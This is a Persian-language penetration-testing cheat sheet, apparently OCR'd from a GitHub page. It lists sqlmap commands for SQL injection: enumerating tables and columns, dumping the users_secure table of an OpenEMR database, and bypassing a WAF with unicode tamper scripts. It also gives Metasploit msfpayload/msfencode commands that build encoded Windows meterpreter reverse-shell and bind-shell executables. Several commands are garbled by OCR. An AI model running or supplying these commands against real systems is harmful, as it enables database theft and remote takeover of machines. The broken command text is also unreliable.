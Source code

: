### تزریق sql و دریافت جداول پایگاه داده db=testdb

```text
sqlmap.py -u "http://url" --data="id=1&str=val" -p "id" --tables -D
"testdb"
```

###  تزریق sql و دریافت ستون های جدول

```text
sqlmap.py -u "http://url" --data="id=l&str=val" -p "id" --columns -T
"users"
```

### خواندن از فایل 

```text
sqlmap.py -r req.txt
```

### دریافت رکورد های جدول مشخص از پایگاه داده مشخص

```text
sqlmap -r req -D openemr -T users_secure --dump
```

### استفاده از تکنیک تاخییر

```text
sqlmap -r req  --technique=T
```
[اطلاعات بیشتر](https://github.com/sqlmapproject/sqlmap/wiki/Techniques)

### دور زدن waf با unicode

```text
sqlmap -r json  --tamper=charunicodeescape  --dump --level=5 --risk=3 --dbs --columns
```

## msf


### ایجاد پیلود meterpreter  \(برای لینوکس: -t file -o callback\)

```text
./msfpayload windows/meterpreter/reverse tcp LHOST=ip LPORT=port R |
./msfencode -t exe -o callback.exe -e x86/shikata_ga nai -c 5
```

### ایجاد پیلود با meterpreter بایند شده

```text
./msfpayload windows/meterpreter/bind_tcp RP.OST=ip LPORT=port X
cb.exe
```
